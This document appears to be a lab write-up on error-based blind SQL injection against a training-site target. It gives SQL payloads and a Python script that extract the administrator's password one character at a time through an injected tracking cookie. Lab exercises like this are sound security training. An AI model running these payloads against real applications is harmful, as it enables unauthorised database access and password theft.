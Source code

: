 Obtain the length of the password:

```sql
' || (select case when length(password)=20 then to_char(1/0) else '' end from users where username='administrator') || '
```

We know that the user administrator exist, then check if the length of the password is 20.

The query to discover characters is substr(), you can check if use username field(is more faster because you know the name) in place of password:

```sql
' || (select case when substr(password,1,1)='a' then to_char(1/0) else '' end from users where username='administrator') || '
```

Automate with a python script:
```python
#!/usr/bin/env python3

import requests
import signal
import sys
import time
import string
from termcolor import colored
from pwn import *

def signal_handler(sig, frame):
    print(colored("\n\n[+] Chao:o", 'red'))
    p_sqli.failure("Something went wrong")
    sys.exit(0)

signal.signal(signal.SIGINT, signal_handler)

# Global variables
URL = 'https://0aa00018033ab6dd8001170000ee00ec.web-security-academy.net/'
CHARACTERS = string.ascii_lowercase + string.digits

p_sqli = log.progress("SQLi")
p_password = log.progress("Password")

def sqli_run():
    password = ''

    p_sqli.status("Starting bruteforce attack...")
    time.sleep(1)

    for position in range(1,21):
        for character in CHARACTERS:

            cookies = {
                'TrackingId': f"nzMHHQhXkdTYY9uO' || (select case when substr(password,{position},1)='{character}' then to_char(1/0) else '' end from users where username='administrator') || '",
                'session': "K1IX48AWjYlcP5CeuUhRgxbwxtdMmoPx"
                }
            
            p_sqli.status(cookies['TrackingId'])
            response = requests.get(URL, cookies=cookies)
   
            if response.status_code == 500:
                password += character
                break

        p_password.status(password)

```